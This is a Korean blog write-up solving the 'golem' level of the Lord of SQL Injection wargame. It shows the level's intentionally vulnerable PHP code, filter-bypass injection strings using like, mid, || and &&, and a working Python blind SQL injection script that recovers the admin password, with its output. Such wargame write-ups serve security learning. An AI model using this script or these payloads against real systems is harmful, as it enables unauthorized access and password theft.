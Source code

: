 ```yaml
---
title: "[Lord of SQL Injection] LoS - golem 문제풀이"
date: 2018-07-30
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


벌써 11일 째 매일매일 꾸준히 문제를 풀고 있다.
작심삼일을 반복하던 내가 11일 째라니 기특하다.
이번 문제도 역시 `Blind SQL Injection` 이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

이번엔 새로운 필터링이 추가되었다.
`or`, `and` 뿐만 아니라 `substr(`과 `=`가 있어도 `HeHe`를 출력한다.
`Blind SQL Injection` 문제를 풀 때 여태까지 사용한게 `substr` 함수와 `=` 문자인데, 이 둘을 사용할 수 없게 되었다.  

`substr`의 경우, `mid` 함수를 사용하면 `substr`과 동일하게 사용할 수 있다.
문제는 `=`인데, 처음에는 `부등호`를 사용하려 했었다.
근데 생각해보니 삽입해야 하는 쿼리는 `1' or id='admin' and length(pw)=1#`의 형태인데, 뒤의 `length(pw)=1`에는 부등호를 사용한다 쳐도, `id='admin'`에는 부등호를 사용해서 체크하기가 어려워 보였다.
그래서 `like`을 사용했다.  

`and`는 `&&`로, `or`은 `||`로 사용할 수 있듯, `=` 또한 `like`으로 사용할 수 있다.
따라서 최종적으로 완성되는 쿼리는 다음과 같은 형태가 된다.  

```plain
?pw=1' || id like 'admin' && length(pw) like 1#
```

앞서 말했듯, `&`는 `%26`으로, `#`은 `%23`으로 바꾸어 전달해야 한다.
이를 토대로 파이썬 코드를 구현하면 다음과 같다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/golem_4b5202cfedd8160e73124b5234235ef5.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행시킨 결과 아래와 같이 `admin`의 `pw`를 알아낼 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 77
[+] Found 3 : 77D
[+] Found 4 : 77D6
[+] Found 5 : 77D62
[+] Found 6 : 77D629
[+] Found 7 : 77D6290
[+] Found 8 : 77D6290B
[+] Found password :  77D6290B
[+] End
```

이번에도 알파벳 대문자는 소문자로 바꾸어 입력 해 주어야 한다.
그냥 대문자 건너뛰고 소문자로 찾을걸 그랬나보다.  

```plain
?pw=77d6290b
```

그럼 아래와 같이 문제를 풀 수 있다.  

```php
----------------------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw='77d6290b'
----------------------------------------------------------------------------------------------

GOLEM Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
GOLEM Clear!!
```